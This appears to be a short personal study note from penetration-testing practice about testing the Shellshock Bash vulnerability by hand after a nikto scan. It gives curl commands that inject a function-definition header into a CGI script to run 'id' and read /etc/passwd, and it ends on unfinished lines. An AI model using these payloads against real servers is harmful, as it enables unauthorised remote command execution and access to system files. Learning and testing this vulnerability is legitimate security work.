


nikto revealed some juicy info , about the new vuln called shellshock , but how to test it manually:
curl -v server/cgi-bin/index.bash or test {in my case} or {index.sh} ... if it gives ok then
curl -v server/cgi-bin/test -H "custom:() { ignored; }; /usr/bin/id" - try this , and we'll get the 500 internal server error and the command will be executed in the logs
also then:
curl server/cgi-bin/test -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat /etc/passwd " - do this and at the end you'll get the output
this rce is due to the shellshock , where we pass the command after the header - theis is explained thoroughly in the notebook in the kernel section at last upside down
and also checkout:
https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf
we can also check via this:

always try these 6 binaries on every server:
